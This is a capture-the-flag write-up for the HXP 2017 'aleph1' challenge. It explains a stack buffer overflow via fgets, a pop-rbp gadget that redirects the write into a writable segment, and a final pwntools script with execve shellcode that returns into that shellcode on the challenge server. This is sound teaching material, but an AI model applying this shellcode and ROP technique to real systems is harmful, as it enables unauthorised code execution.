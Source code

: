 
# HXP 2017 - aleph1


So for this challenge we were provided with source code. 

```cpp
int main()
{
    char yolo[0x400];
    fgets(yolo, 0x539, stdin);
}
```


This seems like a classic buffer overflow. Further inspection of the binary shows that NX bit is disabled. Useless fact: 0x539 == 1337.

	Arch:     amd64-64-little
	RELRO:    Partial RELRO
	Stack:    No canary found
	NX:       NX disabled
	PIE:      No PIE (0x400000)
	RWX:      Has RWX segments

The disassembly of main():

    0x4005ca <main>       push   rbp                           <0x400600>
  	0x4005cb <main+1>     mov    rbp, rsp
  	0x4005ce <main+4>     sub    rsp, 0x400
  	0x4005d5 <main+11>    mov    rdx, qword ptr [rip + 0x200a54] <0x601030>
   	0x4005dc <main+18>    lea    rax, [rbp - 0x400]
   	0x4005e3 <main+25>    mov    esi, 0x539
   	0x4005e8 <main+30>    mov    rdi, rax
   	0x4005eb <main+33>    call   fgets@plt                     <0x4004d0>
   	0x4005f0 <main+38>    mov    eax, 0
   	0x4005f5 <main+43>    leave
   	0x4005f6 <main+44>    ret

We see that ```rbp``` is used to determine the address of the buffer to be written to at 0x4005dc. So lets search for gadgets that modifies ```rbp```!

	0x0000000000400538: pop rbp; ret;
    
Perfect, there is one at 0x400538. So now we can control ```rbp```, hence controlling where our shellcode is written to. After that, we can ROP to our shellcode.

Our flow:
```
1. ROP to our gadget.
2. Pop address of our choice into RBP.
3. Return back to main+11.
4. Write shellcode to address of our choice.
5. Return to our shellcode.
6. cat flag.txt
```

Final script:
```python
from pwn import *

r = remote('35.205.206.137', 1996)
shellcode = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05"

payload = 'A' * 1032
payload += p64(0x400538)
payload += p64(0x6010a0 + 0x400)
payload += p64(0x4005d5)

r.sendline(payload)

payload = asm(shellcode)
payload += '\x90' * (0x400 - len(payload))
payload += p64(0x6010a0 + 0x400)  # leave
payload += p64(0x6010a0) # ret

r.sendline(payload)
r.interactive()
```


	
